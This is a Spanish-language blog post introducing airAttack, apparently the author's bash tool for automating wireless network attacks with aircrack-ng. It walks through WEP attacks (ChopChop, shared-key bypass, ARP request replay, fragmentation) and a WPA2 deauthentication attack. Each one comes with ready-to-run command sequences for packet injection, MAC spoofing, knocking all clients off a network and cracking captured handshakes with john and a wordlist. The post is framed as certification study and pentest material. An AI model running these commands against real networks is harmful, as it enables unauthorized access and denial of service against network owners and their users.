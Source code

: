 ```yaml
---
layout: single
title: airAttack
excerpt: "En este artículo, explico la utilidad de la herramienta airAttack. También dejo reflejado cada ataque, la finalidad de cada ataque y como ejecutarlo. Todos los ataques de esta herramienta se ejecutan gracias a la suite aircrack-ng. La herramienta fue publicada en github el día 27/06/2021, pocos días después de aprobar el OSWPcomo primera release."
date: 2021-08-31
classes: wide
header:
  teaser: /assets/images/airAttack/airAttack.jpg
  teaser_home_page: true
categories:
  - script
tags:
  - shell
  - wireless
  - aircrack-ng
  - wireless_pentesting
---
```


![](/assets/images/airAttack/AIR-ATTACK-Header.jpg)

**airAttack** es una herramienta ofensiva para automatizar los ataques a redes inalámbricas escrita en bash. Esta herramienta será mejorada por mi próximamente para para optimizar determiandas porciones de código. Los ataques de denegación de servicio así como nuevas funciones serán añadidas. Este programa lo escribí cuando estaba estudiando para el OSWP (Offensive Security Wireless Professional).

En este artículo, explicaré cada ataque que puede utilizarse en airAttack, la finalidad de dicho ataque y como ejecutarlo.

La herramienta se puede descargar en:

* [https://github.com/EricLabrador/airAttack](https://github.com/EricLabrador/airAttack)

<h2> Ataques WEP </h2>

Antes de empezar con los ataques WEP, es importante recalcar que todos estos ataques están enfocados obtener el máximo número de IVS para poder crackear la contraseña, a diferéncia de los ataques WPA2, cuya prioridad es obtener el hash de la red para poder posteriormente crackearlo.

**IVS:** Los IVS, también conocidos como "Archivos de Vector de inicialización", se clasifican como archivos de datos que contienen vectores de  inicialización que son necesarios para la generación de los datos cifrados en la red.

<h3><u>Chop</u> <u>Chop</u> <u>Attack</u></h3>
El ataque de **Chop Chop** consiste en coger un byte de datos de un paquete encriptado WEP, substituyendo los valores de los bytes del paquete y recalculando la suma de verificación del encriptado. Los paquetes ya modificados se envían al router, el router simplemente los descarta hasta que el atacante finalmente logra sustituir una suma de verificación válida.

```bash
airodump-ng -c canal_de_ap --bssid mac_de_ap -w captura wlan0
aireplay-ng -1 6000 -o 1 -q 10 -a mac_de_ap -h mac_tarjeta wlan0
aireplay-ng -4 -a mac_de_ap -h mac_tarjeta wlan0
packetforge-ng -0 -a mac_de_ap -h mac_tarjeta -l 192.168.1.2 -k 192.168.1.255 -y *.xor -w ataque_chopchop
aireplay-ng -2 -r ataque_chopchop wlan0
aircrack-ng captura-01.cap
```

**Nota:** Es importante dejar un pequeño espacio de tiempo entre comando y comando y esperar a que cada comando se inyecte correctamente en el router.

<h3><u>SKA</u></h3>
El ataque **SKA**, también conocido como "Broken Shared Key Authentication" consiste en copiar la dirección MAC de un cliente ya conectado a la red en nuestra própia tarjeta de red y generar un ataque de falsa autenticación con nuestra nueva MAC (MAC copiada del cliente previamente autenticado), el objetivo de autenticar nuestra MAC es generar paquetes ARP en la red.

```bash
airodump-ng --bssid mac_de_ap -c canal_de_ap wlan0 -> Por ahora no es necesario empezar a capturar paquetes.
```
Cuando tenemos el punto de acceso localizado y la MAC localizada, dejaremos de ver el tráfico de la red con airodump y procederemos a cambiar la MAC de nuestra tarjeta de red, con el siguiente one-liner se puede cambiar.

```bash
ifconfig wlan0 down &> /dev/null && macchanger --mac mac_de_cliente wlan0 &> /dev/null && ifconfig wlan0 up &> /dev/null
```

**Nota**: Puede que sea necesario ejecutar por segunda vez el one-liner para que se cambie correctamente.

```bash
airodump-ng -w captura --bssid mac_de_ap -c canal_de_ap wlan0
aireplay-ng -3 -b mac_de_ap -h mac_tarjeta wlan0
aireplay-ng -0 1 -e essid_de_ap -a mac_de_ap -h mac_de_ap wlan0
aircrack-ng captura-01.cap
```

<h3><u>ARP</u> <u>Request</u> <u>Replay</u> <u>Attack</u></h3>

El ataque de **ARP Request Replay Attack** consiste en inyectar nuestra MAC en el router víctima, posteriormente se genera un ataque de denegación de servicio sobre uno de los clientes conectados (si este ataque se lanza contra todos, se obtendrán mas IVS, haciendo que la probabilidad de crackear la clave será más alta) y, cuando dichos clientes se vuelnvan a conectar a la red, se genererarán de forma automática paquetes ARP, lo que generará IVS.

```bash
airodump-ng -w captura --bssid mac_de_ap -c canal_de_ap wlan0
aireplay-ng -3 -x 1000 -n 1000 -b mac_de_ap -h mac_de_tarjeta wlan0
aireplay-ng -0 5 -a mac_de_ap -h mac_de_cliente_conectado wlan0
aircrack-ng captura-01.cap
```

<h3><u>Fragmentation</u> <u>Attack</u></h3>

Este ataque necesita que 1 único paquete de datos sea capturado por airodump. Posteriormente, se genera un nuevo paquete modificado con la dirección MAC de nuestra tarjeta de red y se inyecta el paquete modificado por el atacante en el punto de acceso objetivo. De esta forma, se generarán paquetes ARP y, en consecuéncia, los IVS necesários para crackear la clave.

```bash
airodump-ng -w captura --bssid mac_de_ap -c canal_de_ap wlan0
aireplay-ng -1 6000 -o 1 -q 10 -a mac_de_ap -h mac_tarjeta wlan0 -> es muy recomendable dejar el cliente inyectado, ya que facilitará la obtención del paquete de datos.
packetforge-ng -0 -a mac_de_ap -h mac_de_tarjeta -l 192.168.1.2 -k 192.168.1.255 -y *.xor -w fragmentation_attack
aireplay-ng -2 -r fragmentation_attack wlan0
aircrack-ng captura-01.cap
```

<h2> Ataques WPA2 </h2>

El protocolo WPA2 hace años que empezó a monopolizarse en los routers instalados por las compañías telefónicas. Aun que si que es verdad que el protocolo WEP no se suele utilizar, aún hay routers que lo implementan, ya que hay dispositivos (si són de última generación suele no pasar) que únicamente aceptan el procolo WEP.

El objetivo en estas redes es obtener un hash para poder crackearlo mediante el uso de un diccionario de contraseñas.

<h3><u>Ataque</u> <u>de</u> <u>deautenticación</u></h3>

El **ataque de deautenticación** ataque es un ataque de denegación de servicio, el objetivo es provocar que la víctima se reconecte al punto de acceso, en el momento que un dispositivo se conecta al router, se genera un packete handshake, el cual contiene la contraseña hasheada de la red inalámbrica.

```bash
airodump-ng -c canal_de_ap --bssid mac_de_ap -w captura wlan0
aireplay-ng -0 15 -a mac_de_ap -h mac_de_cliente wlan0 -> se utiliza para deautenticar a un solo cliente de la red
aireplay-ng -0 15 -a mac_de_ap -c FF:FF:FF:FF:FF:FF  wlan0 -> se utiliza para deautenticar a todos los clientes de la red
aircrack-ng -J miCaptura captura.cap
hccap2john miCaptura.hccap > hash
john --wordlist=rockyou.txt hash
```
